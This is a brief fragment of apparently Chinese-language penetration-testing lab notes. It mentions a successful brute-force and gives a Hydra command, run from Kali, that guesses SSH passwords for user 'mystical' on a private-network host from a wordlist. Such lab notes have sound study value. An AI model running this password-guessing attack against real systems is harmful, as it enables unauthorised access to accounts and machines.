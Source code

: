   ![Alt text](image-31.png)
  爆破成功

- ssh爆破
  - 在kali的命令行中输入
  ```
  hydra 192.168.0.90 ssh -l mystical -P /home/zhangyifeng/桌面/test_passwd.txt -vV -f
  ```
  ![Alt text](image-32.png)
